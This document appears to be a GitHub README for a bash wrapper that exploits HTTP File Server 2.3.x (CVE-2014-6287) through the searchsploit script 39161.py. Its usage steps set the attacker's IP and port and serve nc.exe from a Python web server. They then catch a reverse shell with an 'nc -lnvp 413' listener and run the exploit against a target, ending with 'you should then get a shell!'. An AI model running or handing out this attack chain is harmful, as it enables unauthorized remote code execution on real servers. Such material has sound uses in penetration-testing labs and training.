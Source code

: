# HFS Exploit Script

A bash script to serve the necessary files for exploiting HTTP File Server 2.3.x

This is not an exploit - it makes use of searchsploit's windows/remote/39161.py script - an exploit for CVE-2014-6287.

## Setup

You need to change the `ip_addr` and `local_port` variables in the `exp.py` file to match your IP address and listener port (413 by default).

## Run the Script

Run the script, specifying the target IP and port that HFS runs on:

```bash
$ sudo ./hfs.sh <IP> <PORT>
```

The script needs root permissions to run, as it uses privileged ports.

It will start several listeners/webservers:
- `python3 -m http.server 80` - to serve `nc.exe` in the `www` directory
- `nc -lnvp 413` - to catch the shell, using a well-known port

It will then run the Python exploit script - you should then get a shell!

## Cleanup

You will need to close your Python server afterwards.

